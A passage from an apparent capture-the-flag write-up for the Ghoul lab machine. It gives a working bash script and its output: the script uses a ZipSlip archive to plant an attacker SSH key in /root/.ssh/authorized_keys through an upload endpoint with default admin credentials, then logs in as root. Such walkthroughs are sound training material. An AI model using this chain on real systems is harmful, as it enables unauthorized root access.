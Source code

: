 ### Root Shell Script

I wrote a script to get a root shell on the first container. It creates
a temp directory to work out of. In there, it creates an ssh key pair,
then uses my ZipSlip script to create a zip. Then it uploads it, and
connects over ssh. On ssh disconnect, it cleans up the temp directory.



    #!/bin/bash

    base=$(mktemp -d)
    sshkey=${base}/key
    zip=${base}/z.zip

    echo "[*] Creating ssh key pair"
    ssh-keygen -b 2048 -t rsa -f ${sshkey} -q -N ""
    chmod 600 ${sshkey}

    echo "[*] Creating zipslip zip with public key as authorized_keys"
    ./zip_slip.sh ${zip} ${sshkey}.pub /root/.ssh/authorized_keys 10 

    echo "[*] Uploading zip to Ghoul"
    curl -s -X POST http://10.10.10.101:8080/upload -H "Authorization: Basic YWRtaW46YWRtaW4=" -F "file=@${zip}" | grep -q "File Uploaded Successfully" ||
        (echo "[-] Failed to upload zip" & exit)
    echo "[+] zip uploaded successfully"

    echo "[*] Connecting to Ghoul over SSH as root"
    ssh -i ${sshkey} root@10.10.10.101

    rm -rf ${base}





    root@kali# ./ghoul_shell.sh 
    [*] Creating ssh key pair
    [*] Creating zipslip zip with public key as authorized_keys
    Archive:  /tmp/tmp.Q8VNxuFb46/z.zip
      Length      Date    Time    Name
    ---------  ---------- -----   ----
          391  2019-05-24 04:19   ../../../../../../../../../../root/.ssh/authorized_keys
    ---------                     -------
          391                     1 file
    [*] Uploading zip to Ghoul
    [+] zip uploaded successfully
    [*] Connecting to Ghoul over SSH as root
    Last login: Fri May 24 07:06:12 2019 from 10.10.14.3
    root@Aogiri:~# 



### user.txt

From there, I can find `user.txt` in kaneki's homedir:

